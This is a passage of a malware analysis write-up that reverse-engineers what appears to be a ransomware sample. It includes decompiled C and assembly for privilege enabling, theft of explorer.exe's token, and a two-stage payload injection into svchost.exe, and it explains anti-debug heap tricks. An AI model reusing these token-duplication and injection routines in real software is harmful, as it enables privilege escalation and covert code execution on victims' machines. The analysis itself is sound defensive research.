	Don't get used to doing this as it could have any unforeseen exploitation that could harm your PC or environment, even if it's offline or on a virtual machine.
	Based on this functionality we will rename the function to `get_file_extension_guid_md5_b64`:
	<div align="center"></div>
  
If `get_file_extension_guid_md5_b64()` returns a pointer to the buffer with the custom file extension, storing it into `DAT_00425178`, then it will continue the execution with `FUN_0040bb70()`, who will return a value to be stored at `DAT_0042517c`.  Afterwards, the function `FUN_0040b708()` is executed.
<div align="center"></div>


- format_readme_filename_and_hash_extension (FUN_0040bb70):
	This function allocates the first 42 bytes to obtain a buffer at the process. Then it deobfuscates seven blocks of 4 bytes, which is the string `%s.README.txt` that will replace the placeholder with the contents of `DAT_00425178 + 2`, the previous file extension it generated before, but skipping the point at the buffer at the process it created before, by using the function [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170). The hash of the filename `AFfGduKAp.README.txt` is obtained with `custom_hashing_function()`, and stored at `DAT_00425170`, the lower `DWORD` (4 bytes).
```c
ushort * FUN_0040bb70(void)
{
  // allocate 0x2a bytes on process heap
  buff_readme = (ushort *)allocate_data_processheap_antidbg(0x2a);
  if (buff_readme != (ushort *)0x0) { // if allocation successful
    local_20[0] = 0xef8fa025;   // fill 7 dwords with obfuscated data
    local_20[1] = 0xefaea02e;
    local_20[2] = 0xefbda045;
    local_20[3] = 0xefb1a044;
    local_20[4] = 0xefd2a045;
    local_20[5] = 0xef84a074;
    local_20[6] = 0xeffca074;
    decode_n_blocks_w_mask_func(local_20,7); // deobfuscate data %s.README.txt
    // format deobfuscated string with the file extension, skipping the point (+2)
    (*_swprintf)(buff_readme,local_20,DAT_00425178 + 2);
    // hash result with custom function
hash = custom_hashing_function(extraout_ECX,extraout_EDX,buff_readme,0xffffffff); 
    DAT_00425170 = (undefined4)hash;  // store lower dword of result globally
  }
  return buff_readme;   // return pointer to formatted unicode string
}
```
.
	We can see that it retrieves from obfuscated data `%s.README.txt` and from the file extension at DAT_00425178 it puts the pointer after the point to ignore it.
	<div align="center"></div>
	Then after [`_swprintf`](https://learn.microsoft.com/en-us/cpp/c-runtime-library/reference/sprintf-sprintf-l-swprintf-swprintf-l-swprintf-l?view=msvc-170) it will replace the placeholder with the file extension, without the point.
	<div align="center"></div>
	Then at `DAT_00425170`, it will store the lower part, `DWORD`, of the hash result of `AFfGduKAp.README.txt` with the function `custom_hashing_function()` that was used for the API's retrieval:
	<div align="center"></div>
	Because of this the function will be renamed to `format_readme_filename_and_hash_extension`:
	<div align="center"></div>
  
- enable_privileges_list (FUN_0040b708):
	This function enables a list of specific privileges in the current process by calling [`RtlAdjustPrivilege`](https://ntdoc.m417z.com/rtladjustprivilege) in a loop. It iterates over a hardcoded array of privilege IDs until it reaches a terminating zero value. Each privilege is enabled for the current process (not the current thread), and the output status is stored in a local variable but not used afterward.
	This will likely give elevated rights to bypass security features, manipulate access tokens, or perform privileged operations without user consent, taking advantage of the already elevated status by the UAC bypass we have seen before.
	If we inspect the list of privileges at DAT_0040b6c8, we can see this at the [`ntseapi.h from Proccess Hacker`](https://processhacker.sourceforge.io/doc/ntseapi_8h_source.html) and the explanation of each right was found on this [`Github repository`](https://github.com/winsiderss/systeminformer/blob/master/phnt/include/ntseapi.h) by phnt.

| Hex Value | Decimal | Privilege Name                     | Enables                                                                                                                                                 |     |
| --------- | ------- | ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------- | --- |
| `0x03`    | 3       | `SE_ASSIGNPRIMARYTOKEN_PRIVILEGE`  | Assign the primary token of a process.                                                                                                                  |     |
| `0x11`    | 17      | `SE_BACKUP_PRIVILEGE`              | Perform backup operations, granting read access control to any file.                                                                                    |     |
| `0x14`    | 20      | `SE_DEBUG_PRIVILEGE`               | Debug and adjust memory of any process, ignoring [DACL](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-lists) for the process. |     |
| `0x24`    | 36      | `SE_MAX_WELL_KNOWN_PRIVILEGE`      | Obtain an impersonation token for another user in the same session.                                                                                     |     |
| `0x1D`    | 29      | `SE_IMPERSONATE_PRIVILEGE`         | Impersonate a client after authentication.                                                                                                              |     |
| `0x0E`    | 14      | `SE_INC_BASE_PRIORITY_PRIVILEGE`   | Increase base priority of a process                                                                                                                     |     |
| `0x05`    | 5       | `SE_INCREASE_QUOTA_PRIVILEGE`      | Increase quota assigned to a process                                                                                                                    |     |
| `0x21`    | 33      | `SE_INC_WORKING_SET_PRIVILEGE`     | Allocate more memory for applications that run in the context of users.                                                                                 |     |
| `0x1C`    | 28      | `SE_MANAGE_VOLUME_PRIVILEGE`       | Enable volume management privileges                                                                                                                     |     |
| `0x0D`    | 13      | `SE_PROF_SINGLE_PROCESS_PRIVILEGE` | Gather profiling information for a single process.                                                                                                      |     |
| `0x12`    | 18      | `SE_RESTORE_PRIVILEGE`             | Perform restore operations granting write access control to any file.                                                                                   |     |
| `0x08`    | 8       | `SE_SECURITY_PRIVILEGE`            | Perform a number of security-related functions, such as controlling and viewing audit messages.                                                         |     |
| `0x0B`    | 11      | `SE_SYSTEM_PROFILE_PRIVILEGE`      | Gather profiling information for the entire system.                                                                                                     |     |
| `0x09`    | 9       | `SE_TAKE_OWNERSHIP_PRIVILEGE`      | Take ownership of an object without being granted discretionary access.                                                                                 |     |
| `0x13`    | 19      | `SE_SHUTDOWN_PRIVILEGE`            | Shut down a local system.                                                                                                                               |     |

```c
void FUN_0040b708(void)
{
  priv_list = &DAT_0040b6c8;    // pointer to start of privilege list

  while (true) {
    if (*priv_list == 0) break;       // stop when reaching null terminator (0)
    // enable privilege ID (*priv_list) for current process
    (*RtlAdjustPrivilege)(*priv_list, 1, 0, &local_5);    
    piVar1 = piVar1 + 1;         // advance to next privilege ID
  }
  return;
}
```
.
	Based on the functionality, the function will be renamed to `enable_privileges_list`:
	<div align="center"></div>
  

So after gaining this set of privileges, it will attempt to fill with data `DAT_0042516c`, which will be determined by the outcome of the function `FUN_0040b674()`. Because if the return value is zero, it will invoke the function `FUN_0040b388()` to fill `DAT_0042516c`, which, if it is empty after its execution, will invoke `get_user_sid_result_func()` to see if it has a user SID and if it doesn't have a user SID, it will attempt to fill DAT_0042516c with the function `FUN_0040ae74()`. Otherwise, if the function `FUN_0040b674()` return value was different from zero, it will attempt it with the function `FUN_0040ac00()`, fill `DAT_0042516c`, and after that, execute the function `FUN_004072b4()`:
<div align="center"></div>


 - is_running_user_token_as_system (FUN_0040b674):
	 The function invokes [`NtOpenProcessToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntopenprocesstoken) which takes the handle of the own process (`0xffffffff`) with the desired access, [`TOKEN_QUERY`](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-for-access-token-objects) (`0x8`), based on [`ReactOS Documentation`](https://doxygen.reactos.org/da/d86/xdk_2setypes_8h_source.html#l00928), and with [`NtQueryInformationToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntqueryinformationtoken) tries to retrieve the [TOKEN_USER structure](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/ns-ntifs-_token_user), according to [`TOKEN_INFORMATION_CLASS`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/ne-ntifs-_token_information_class), which will be used to check if the `RID` is `SYSTEM` by checking if the value [`SID_AND_ATTRIBUTES`](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ns-winnt-sid_and_attributes) the `SID`, looking at [`Well-Known SIDs`](https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers), equals 18 (`0x12`), which is for checking if the authority is of `SYSTEM`.
	 The function invokes [`NtOpenProcessToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntopenprocesstoken), which takes the handle of the current process (`0xFFFFFFFF`) with the desired access [`TOKEN_QUERY`](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-rights-for-access-token-objects) (`0x8`), as defined in the [`ReactOS Documentation`](https://doxygen.reactos.org/da/d86/xdk_2setypes_8h_source.html#l00928). 
	 Then, using [`NtQueryInformationToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntqueryinformationtoken), it attempts to retrieve the [`TOKEN_USER`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/ns-ntifs-_token_user) structure by passing the information class `TokenUser` (value `1`), as defined in the [`TOKEN_INFORMATION_CLASS`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/ne-ntifs-_token_information_class).
	 The function then checks whether the `SID` contained in the structure corresponds to `SYSTEM` by inspecting the last `DWORD` (`Relative Identifier` or `RID`) at offset `+8` of the SID, comparing it to `0x12` (18), which is the [`Well-Known SID`](https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers) for the `SYSTEM` account (`S-1-5-18`). That would be the case if the UAC bypass is done flawlessly with the COM object ICMLuaUtil we have seen before.
	 If the RID is `0x12`, the function returns `1` (running as `SYSTEM`). Otherwise, it returns `0`.
```c
undefined4 FUN_0040b674(void)
{
  result = 0;    // default return value
  // open current process token with TOKEN_QUERY (0x8)
  status = (*NtOpenProcessToken)(0xffffffff, 8, &hToken);  
  if (status == 0) { // if token opened successfully
    // query TokenUser (TOKEN_INFORMATION_CLASS 1)
    status = (*NtQueryInformationToken)(hToken, 1, token_user_info, 0x2c, local_c); 
    // if query succeeded and last RID == 0x12 (SYSTEM)
    if ((status == 0) && (*(int *)(token_user_info[0] + 8) == 0x12)) { 
      result = 1;        // running as SYSTEM
    }
    (*ZwClose)(hToken);  // close token handle
  }
  return result;    // return 1 if SYSTEM, 0 otherwise
}
```
.
	The function checks if the user is running the program as `SYSTEM`, based on that, we will rename the function to `is_running_user_token_as_system`:
	<div align="center"></div>
  
- get_explorer_securitydelegation_token (FUN_0040b388):
	First we analyse the nested functions before making assumptions.
	The function first retrieves with the function `find_pid_by_hashed_processname()` a `Process ID (PID)`, whose hashed process name matches with the passed hash, deobfuscated using `XOR` with `0x10035fff`. With that PID, if found, which is actually the **explorer.exe**, as seen later. Then it will attempt to retrieve an impersonated token with the function `get_duplicated_impersonated_token_with_pid()`, with the explorer PID, `3` which is [`SecurityDelegation`](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ne-winnt-security_impersonation_level) if we look at the [`_SECURITY_IMPERSONATION_LEVEL`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_SECURITY_IMPERSONATION_LEVEL) structure. That means that it can impersonate the client's security context on remote systems. The rest of the arguments are `1` that is the [`TokenType`](https://doxygen.reactos.org/da/d86/xdk_2setypes_8h_source.html#l00960) which is `Primary`, if we look at [`ReactOS Documentation`](https://doxygen.reactos.org/da/d86/xdk_2setypes_8h_source.html#l00960).
```c
undefined4 FUN_0040b388(void)
{
  imp_token = 0;
  pid_explorer = find_pid_by_hashed_processname(0x2eb12d19 ^ 0x10035fff);
  if (pid_explorer != 0) {
    imp_token = get_duplicated_impersonated_token_with_pid(pid_explorer,3,1);
  }
  return imp_token;
}
```
.
	- find_pid_by_hashed_processname (FUN_004097d8):
		Before analysing, I analysed in advance the unique nested function, which can be seen after this one.
		First the function allocates `0x400` bytes (1024), stored at `local_c`, with `allocate_data_processheap_antidbg()`. Then by using [`NtQuerySystemInformation`](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation), passing as a parameter [`SYSTEM_INFORMATION_CLASS`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntexapi/system_information_class.htm) `0x5`, which is `SystemProcessInformation`, according to Geoff Chappell, attempting to store into the buffer we allocated earlier the [`SYSTEM_PROCESS_INFORMATION`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ex/sysinfo/process.htm) of all the available processes. Then based on the return, checking the [`NTSTATUS Values`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-erref/596a1078-e883-4972-9bbc-49e60bebca55), if it returns `STATUS_INFO_LENGTH_MISMATCH` (`0xC0000004`), the size was not enough, so with the function `reallocate_data_processheap_antidbg()` we will reallocate the buffer with the exact size retrieved when [`NtQuerySystemInformation`](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation) was invoked and will try again to query `SystemProcessInformation`. Then it will go one by one checking at each  [`SYSTEM_PROCESS_INFORMATION`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ex/sysinfo/process.htm) at the offset `0x3C`, which is a specific data at `UNICODE_STRING ImageName.Buffer`, where if it's hash with the function `custom_hashing_function()` equals the parameter passed, `param_1`, if it doesn't match, it attempts with the next process; otherwise, if it matches, then it will take at the offset `0x44`, `PVOID UniqueProcessId`, the process ID, which the function will return. If nothing was found or an error occurred it will return `0`. 
```assembly
...
MOV        dword ptr [EBP + local_8], 0 ; local_8 = 0 → return value initialized
MOV    dword ptr [EBP + local_c], 0x400 ; local_c = 0x400 → alloc size (1024 bytes)
PUSH       dword ptr [EBP + local_c]   ; Pass allocation size
CALL       allocate_data_processheap_antidbg ; Allocates 1024 bytes on process heap
MOV        dword ptr [EBP + local_10], EAX   ; Save alloc buffer ptr to local_10
	LAB_004097f9:                      ; LOOP
LEA        EAX, [EBP + local_c]        ; EAX = ptr local_c → return length (in/out)
PUSH       EAX                         ; 4th param: ReturnLength
PUSH       dword ptr [EBP + local_c]   ; 3rd param: Length (input size)
PUSH       dword ptr [EBP + local_10]  ; 2nd param: Buffer ptr
PUSH       0x5  ; 1st param: SystemInformationClass = 5 (SystemProcessInformation) 
CALL       dword ptr [NtQuerySystemInformation] ; Query system process information
TEST       EAX, EAX                    ; Check NTSTATUS result
JNZ        LAB_00409813                ; Jump if error (not zero)
JMP        LAB_00409841                ; Jump to process result
	LAB_00409813:
CMP        EAX, 0xC0000004     ; STATUS_INFO_LENGTH_MISMATCH (insufficient buffer)
JNZ        LAB_0040982c        ; If not that specific error, exit
PUSH dword ptr [EBP + local_c] ; Retry w/ size returned by NtQuerySystemInformation
PUSH       dword ptr [EBP + local_10]  ; ptr to heap with not enough size
CALL       reallocate_data_processheap_antidbg  ; Reallocate with new size
MOV        dword ptr [EBP + local_10], EAX ; Save new buffer pointern
JMP        LAB_004097f9                ; Retry query with updated buffer
	LAB_0040982c:
PUSH       dword ptr [EBP + local_10]     ; pass ptr to allocated buffer
CALL       rtl_freeheap_antidbg_func      ; Free heap
MOV        EAX, dword ptr [EBP + local_8] ; Return 0
...
RET 0x4
	LAB_00409841:
MOV        EBX, dword ptr [EBP + local_10] ; EBX = pointer to first  
                                           ; SYSTEM_PROCESS_INFORMATION entry
	LAB_00409844:
MOV     ESI, dword ptr [EBX] ; ESI = ULONG NextEntryOffset → size of current entry
CMP    dword ptr [EBX + 0x3C], 0  ; Offset 0x3C → ImageName.Buffer (UNICODE_STRING)
JZ         LAB_00409863           ; If ImageName is null, skip entry
PUSH       0
PUSH dword ptr [EBX + 0x3C]   ; pass ptr to process name string (ImageName.Buffer)
CALL       custom_hashing_function    ; Hash process name
CMP        EAX, dword ptr [EBP + param_1] ; Compare hash with param_1
JNZ        LAB_00409863                ; If not match, continue searching
MOV        EAX, dword ptr [EBX + 0x44] ; Match: store PID at offset 0x44 to EAX
MOV        dword ptr [EBX + local_8], EAX ; Save result (PID) to local_8
JMP        LAB_0040986a                ; Exit loop
	LAB_00409863:
LEA        EBX, [EBX + ESI*0x1]    ; Advance to next entry: EBX += NextEntryOffset
TEST       ESI, ESI
JNZ        LAB_00409844            ; Repeat loop if not end of list
	LAB_0040986a:
PUSH       dword ptr [EBP + local_10]    ; pass alloc buffer
CALL       rtl_freeheap_antidbg_func     ; Free the buffer
MOV        EAX,dword ptr [EBP + local_8] ; Return PID that matches hash (param_1)
...
RET 0x4
```
.
		- reallocate_data_processheap_antidbg (FUN_00406894):
			Once again we find another anti-debug technique similar to `allocate_data_processheap_antidbg()`. It looks at [`PEB`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/pebteb/peb/index.htm) with an offset of `0x18` at the `PVOID ProcessHeap`, which, according to [`Microsoft`](https://learn.microsoft.com/en-us/windows/win32/api/heapapi/nf-heapapi-getprocessheap) is the default heap of the calling process. As we discussed before, at the [`heap structure`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_HEAP) the `0x40` offset is the `Flags` field, where `0x40000000` corresponds to [`HEAP_VALIDATE_PARAMETERS_ENABLED`](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/enable-heap-parameter-checking) flag, enabled by default when debugging, so if it's active, then it corrupts the default heap handle of the process by performing a `ROL`, shifting the bytes to make it unusable. 
			Besides the anti-debug technique, similar to the function, what it actually does is that with `param_1`, it attempts to reallocate a memory region using `RtlReallocateHeap`, expanding or resizing the buffer to the size specified in `param_2`, using the default process heap retrieved from the `PEB` structure. The reallocation is done with the flag [`HEAP_ZERO_MEMORY`](doxygen.reactos.org/d5/df7/ndk_2rtltypes_8h_source.html#l00128) (`0x8`), which, according to [`Microsoft Documentation`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-rtlallocateheap) initialises the data to zero.
```c
void FUN_00406894(undefined4 param_1, undefined4 param_2)
{
  // Get the default process heap (PEB->ProcessHeap at offset 0x18)
  process_heap_handle = *(uint *)((int)peb_ptr + 0x18);  
  // If HEAP_VALIDATE_PARAMETERS_ENABLED flag is set in Heap->Flags (offset 0x40)
  if ((*(uint *)(process_heap_handle + 0x40) & 0x40000000) != 0) {
    // Rotate heap handle left by 1 bit → anti-debug: invalidates the handle   
    process_heap_handle = process_heap_handle << 1 | (uint ((int)process_heap_handle < 0);  
  }
  // Call RtlReallocateHeap to reallocated 
  // Flags = 8 (HEAP_ZERO_MEMORY), resize param_1 to param_2
  (*RtlReallocateHeap)(process_heap_handle, 8, param_1, param_2);  
  return;
}
```
.
			Based on the functionality, we will rename the function to `reallocate_data_processheap_antidbg`:
			<div align="center"></div>
      

---
.
			Because it will hinder the debugging, we will replace the `ROL` with a `NOP` as we did until now to get rid of this anti-debug technique:
			<div align="center"></div>
			<div align="center"></div>
			And export it as always.

---
.
		Based on the whole functionality that attempts to find a matching hash of a specific process name, we will rename the function to `find_pid_by_hashed_processname`:
		<div align="center"></div>
    
- get_duplicated_impersonated_token_with_pid (FUN_00409880):
		The function opens a process with [`NtOpenProcess`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-ntopenprocess) using the provided `PID` (`param_1`) to retrieve the process handle and use it to retrieve its primary token by passing the process handle as a parameter to [`NtOpenProcessToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-ntopenprocesstoken), and duplicates it with a specified impersonation level (`param_2`), [`_SECURITY_IMPERSONATION_LEVEL`](https://www.vergiliusproject.com/kernels/x86/windows-10/22h2/_SECURITY_IMPERSONATION_LEVEL), and token type (`param_3`, either `Primary` or `Impersonation`). It constructs with that a [`SECURITY_QUALITY_OF_SERVICE`](https://www.vergiliusproject.com/kernels/x64/windows-11/24h2/_SECURITY_QUALITY_OF_SERVICE) structure manually and passes it to [`ZwDuplicateToken`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-zwduplicatetoken) to create a usable impersonation token. Finally, with [`ZwClose`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwClose.html), it closes the handles used.
```c
undefined4 FUN_00409880(int param_1, undefined4 param_2, undefined4 param_3)
{
  int ctx[5]; // [0]=PID,[1]=reserved,[2]=hProcess,[3]=hTokenDup,[4]=hToken
  ctx[4] = 0;                             // hToken = 0
  ctx[3] = 0;                             // hTokenDup = 0
  ctx[2] = 0;                             // hProcess = 0
  if (param_1 != 0) {
    ctx[0] = param_1;                     // Target PID
    ctx[1] = 0;                           // Reserved
    local_30 = 0x18;                      // OBJECT_ATTRIBUTES.Length
    ...
    *local_1c = 0; // SECURITY_QUALITY_OF_SERVICE = NULL for NtOpenProcess
// NtOpenProcess(out hProcess, PROCESS_QUERY_LIMITED_INFORMATION, obj_attrs, pid)
    iVar1 = (*NtOpenProcess)(ctx[2], 0x2000000, &local_30, ctx);
    if (iVar1 == 0) {
    // NtOpenProcessToken(hProcess, TOKEN_DUPLICATE, out hToken)
      iVar1 = (*NtOpenProcessToken)(ctx[2], 0x2000000, ctx[4]);
      if (iVar1 == 0) {
        local_3c = 0xc;       // TOKEN_TYPE = TokenImpersonation (2)
        local_38 = param_2;   // Impersonation level, 2 -> SecurityImpersonation
                              //                      3 -> SecurityDelegation
        local_34 = 0;         // DisableAllPrivileges = FALSE
        local_33 = 0;         // Reserved
        local_30 = 0x18;
		...
        local_1c = &local_3c; // SECURITY_QUALITY_OF_SERVICE = {type,level,flags}
        (*ZwDuplicateToken)(
          ctx[4],                        // hToken
          0x2000000,                     // TOKEN_DUPLICATE
          &local_30,                     // OBJECT_ATTRIBUTES
          0,                             // EffectiveOnly = FALSE
          param_3,                       // TokenType (Primary / Impersonation)
          ctx[3]);                       // out hTokenDup
      }
    }
  }
  if (ctx[4] != 0) {
    (*ZwClose)(ctx[4]);                  // Close hToken
  }
  if (ctx[2] != 0) {
    (*ZwClose)(ctx[2]);                  // Close hProcess
  }
  return ctx[3];              // Return duplicated token handle (or 0 on failure)
}
```
.
		The main objective is to probably obtain a token of an elevated process running on the system in order to impersonate the target process with this elevated token. The function will be renamed to `get_duplicated_impersonated_token_with_pid`:
		<div align="center"></div>
	To understand better how it works, we will debug it with x32dbg to see which process is attempting to impersonate.
	If we put a breakpoint at the point that it attempts to store the PID of the matching hash process name, we will see that it's the process explorer.exe, which makes sense as it's an elevated process:
	<div align="center"></div>
	This can be confirmed if we compare the stored PID with the PID of **explorer.exe** running at that moment with Process Hacker. Which at that moment **explorer.exe** had the Process ID (PID) 5972 (`0x1754`):
	<div align="center"></div>
	<div align="center"></div>
	Then the function will end up by retrieving the impersonated primary token with [`SecurityDelegation`](https://learn.microsoft.com/en-us/windows/win32/api/winnt/ne-winnt-security_impersonation_level) rights, being able to impersonate the client's security context on remote systems. 
	Based on this, we will rename the function to `get_explorer_securitydelegation_token`:
	<div align="center"></div>
  
-  get_svchost_token_w_processinjection_adaptive (FUN_0040ae74):
	Before doing anything, we analysed the nested functions, which you will see after this one.
	 The function is responsible for preparing and executing a payload inside another process, but only under specific conditions. It first checks the Windows version with the function `get_OS_version_func()` to ensure it's newer than XP. If so, it looks for a running `svchost.exe` process that has `SeDebugPrivilege` enabled, since this privilege allows manipulating other processes even if access would normally be denied with the function `find_svchost_with_debug_privilege()`.
	 Once that process is found, it opens two handles to it with the function [`NtOpenProcess`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntddk/nf-ntddk-ntopenprocess): one for general interaction and another that will later be duplicated across the address space with [`ZwDuplicateObject`](https://learn.microsoft.com/en-us/windows-hardware/drivers/ddi/ntifs/nf-ntifs-zwduplicateobject). If all of that succeeds, the function `is_process_wow64()` checks whether the current process is running under [`WOW64`](https://learn.microsoft.com/en-us/windows/win32/winprog64/wow64-implementation-details) (indicating 32-bit code on a 64-bit system). Based on the result, it follows one of two execution flows.
	 - If the system is not WOW64 (payload version `0`), it allocates memory, decrypts `DAT_0041b25a` with the function `decrypt_payload_xor_custom_func()`, and later patches two values inside it (the session ID and the duplicated handle). When the payload is ready, then it injects the resulting payload into the target process, **svchost.exe**, using a remote thread with `inject_payload_and_wait_remote_thread()`.
	 - If the system is WOW64 (payload version `1`), the process is more complex. It also decrypts with `decrypt_payload_xor_custom_func()` a different payload at `DAT_0041b3da`, patches it similarly, and then prepares a second-stage stub. This stub at `DAT_0041b5df` is also decrypted with `decrypt_payload_xor_custom_func()` and patched with the target handle, payload pointer, and size. Then the stub is executed directly, acting as a loader to perform the rest of the operation inside the remote process.
	 In both cases, everything is cleaned up. The use of two stages in the WOW64 path suggests additional evasion or compatibility logic is needed for 32-bit payloads running in that environment.
```c
undefined4 FUN_0040ae74(void)
{
  ctx[5] = 0;                            // Final return value = 0 by default
  ...
  os_version = get_OS_version_func();   // Retrieve OS version
   // If OS is newer than Windows XP
  if (os_version > 59 && (id = find_svchost_with_debug_privilege()) != 0) { 
    // Prepare OBJECT_ATTRIBUTES
    obj_len = 0x18;
    ...
    obj_sqos = 0;
    // Open first process handle
    status = (*NtOpenProcess)(&hProcess1, 0x1FFFFF, &obj_attrs, &id);
    if (status == 0) {
      ...
      // Reuse ClientId from structure
      id = ClientId.UniqueProcess;
      // Open second process handle
      status = (*NtOpenProcess)(&hProcess2, 0x1FFFFF, &obj_attrs, &id);
      if (status == 0) {
        // Duplicate hProcess2 into hProcess1 with DUPLICATE_SAME_ACCESS
        status = (*ZwDuplicateObject)(hProcess2, hProcess2, hProcess1, &duplicated_handle, 0, 0, 2);
        if (status == 0) {
          // Call a function to determine payload version
          is_process_wow64(0xffffffff, &payload_version);
          if (payload_version == 0) {
            payload_size = 0x17C;
            // Allocate memory for decrypted payload (version 0)
            status = (*NtAllocateVirtualMemory)(hProcess2, &payload_buffer, 0, &payload_size, 0x3000, 4);
            if (status == 0 && (payload = decrypt_payload_xor_custom_func(&DAT_0041b25a)) != 0) {
              (*memcpy)(payload_buffer, payload, 0x17C);
              rtl_freeheap_antidbg_func(payload);
              ...
              // Write PEB+0x1D4 (ULONG SessionId) into payload+0x14
              ((int *)payload_buffer)[5] = *(int *)(PEB + 0x1D4);
              // Store handle into payload+0x24
              ((int *)payload_buffer)[9] = duplicated_handle;          
              // Call custom execution func
              ctx[5] = inject_payload_and_wait_remote_thread(hProcess1, payload_buffer, 0x17C); 
              ...
              (*NtFreeVirtualMemory)(hProcess2, &payload_buffer, &payload_size, 0x8000);
            }
          } else {
            payload_size = 0x201;
            // Allocate memory for decrypted payload (version 1)
            status = (*NtAllocateVirtualMemory)(hProcess2, &v1_payload_buf, 0, &payload_size, 0x3000, 4);
            if (status == 0 && (payload = decrypt_payload_xor_custom_func(&DAT_0041b3da)) != 0) {
              (*memcpy)(v1_payload_buf, payload, 0x201);
              rtl_freeheap_antidbg_func(payload);
              ...
              // Write PEB+0x1D4 (ULONG SessionId) into +0x24
              ((int *)v1_payload_buf)[9]  = *(int *)(PEB + 0x1D4);  
              // Write handle into +0x34    
              ((int *)v1_payload_buf)[13] = duplicated_handle;  
              ...
              stage2_size = 0x2CF;
              status = (*NtAllocateVirtualMemory)(hProcess2, &stage2_stub, 0, &stage2_size, 0x3000, 0x40);
              if (status == 0 && (stage2 = decrypt_payload_xor_custom_func(&DAT_0041b5df)) != 0) {
                (*memcpy)(stage2_stub, stage2, 0x2CF);
                rtl_freeheap_antidbg_func(stage2);
                ((int *)stage2_stub)[0x25] = hProcess1;      // Inject hProcess1
                ((int *)stage2_stub)[0x2C] = v1_payload_buf; // Inject payload ptr
                ((int *)stage2_stub)[0x33] = 0x201;          // Inject size
                ctx[5] = (*stage2_stub)();                // Call stage 2 shellcode
                (*NtFreeVirtualMemory)(hProcess2, &stage2_stub, &stage2_size, 0x8000);
              }
              (*NtFreeVirtualMemory)(hProcess2, &v1_payload_buf, &payload_size, 0x8000);
            }
          }
        }
        (*ZwClose)(hProcess2);          // Close second handle
      }
      (*ZwClose)(hProcess1);            // Close first handle
    }
  }
  return ctx[5];                        // Return result of execution
}
```
.
	- find_svchost_with_debug_privilege (FUN_0040ac28):
		This function works similarly to `find_pid_by_hashed_processname`, except that the hash (`0xB7E02438`) is hardcoded within the function, which later we will see corresponds to the process **svchost.exe**. Additionally, it checks that the token of the process matching that hash has the `SeDebugPrivilege` enabled before returning its PID. The `SeDebugPrivilege` allows a process to debug and adjust the memory of any other process, ignoring the [`Discretionary Access Control List (DACL)`](https://learn.microsoft.com/en-us/windows/win32/secauthz/access-control-lists) restrictions, as documented in [`ntseapi.h`](https://processhacker.sourceforge.io/doc/ntseapi_8h_source.html) and [`phnt GitHub`](https://github.com/winsiderss/systeminformer/blob/master/phnt/include/ntseapi.h).
		First, it allocates `0x400` bytes (1024) using `allocate_data_processheap_antidbg()`, storing the pointer at `local_1c`, and sets `local_18 = 0x400`. Then it invokes [`NtQuerySystemInformation`](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntquerysysteminformation) with `SystemInformationClass = 5`, which corresponds to [`SystemProcessInformation`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ex/sysinfo/process.htm), to retrieve a list of all running processes in the buffer.
		If the function returns `STATUS_INFO_LENGTH_MISMATCH` (`0xC0000004`), it reallocates the buffer with the required size (stored in `local_18`) using `reallocate_data_processheap_antidbg()` and retries the query. Once successful, it iterates over each [`SYSTEM_PROCESS_INFORMATION`](https://www.geoffchappell.com/studies/windows/km/ntoskrnl/api/ex/sysinfo/process.htm) entry using `NextEntryOffset`.
		For each process, it checks whether the pointer at offset `0x3C` (→ `UNICODE_STRING ImageName.Buffer`) is non-null and hashes it with `custom_hashing_function()`. If the result matches `0xB7E02438`, it proceeds to check the privileges of the process.
		It retrieves the process ID from offset `0x44` (`UniqueProcessId`) and uses `NtOpenProcess` with `PROCESS_ALL_ACCESS` to obtain a handle. If successful, it calls `NtOpenProcessToken` to obtain the token. Then, it builds a `PRIVILEGE_SET` structure with `LUID 1` (`SeDebugPrivilege`) and calls [`ZwPrivilegeCheck`](https://docs.rs/ntapi/latest/aarch64-pc-windows-msvc/ntapi/ntzwapi/fn.ZwPrivilegeCheck.html).
